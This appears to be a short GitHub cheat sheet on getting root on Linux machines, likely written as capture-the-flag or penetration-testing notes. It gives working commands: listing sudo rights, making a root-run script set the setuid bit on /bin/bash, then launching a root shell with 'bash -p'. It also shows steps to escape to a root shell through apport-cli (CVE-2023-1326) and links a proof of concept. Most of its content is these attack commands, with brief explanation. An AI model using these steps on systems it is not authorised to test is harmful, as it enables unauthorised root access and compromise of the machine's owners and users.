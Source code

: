 ## Ways to get to root

### 

find a script the user can run and edit that runs with root rights.

```shell
# Can be found with:

sudo -l
```
In one example it was like this:

### 1. Way to elevate to root
```bash
echo "chmod u+s /bin/bash" > initdb.sh # create a file

sudo  /usr/bin/syscheck # this is the script that runs with root rights

/bin/bash -p  # this will give you a root shell

```
#### Explanation:
```shell
echo "chmod u+s /bin/bash": This part is creating a string that contains a shell command. 
The command chmod u+s /bin/bash is used to set the "setuid" bit on /bin/bash. 
When a file with the "setuid" bit set is executed, it runs with the permissions of the file's owner, rather than the permissions of the user who is executing the file. 
In this case, since /bin/bash is typically owned by root, this would allow any user to get a root shell by running /bin/bash.  
```

### If there is a apport-cli CVE-2023-1326
https://github.com/diego-tella/CVE-2023-1326-PoC

```shell
sudo /usr/bin/apport-cli -f
# click 1, 1, and than
press V (view report)
!/bin/bash
# new shell has root rights
```
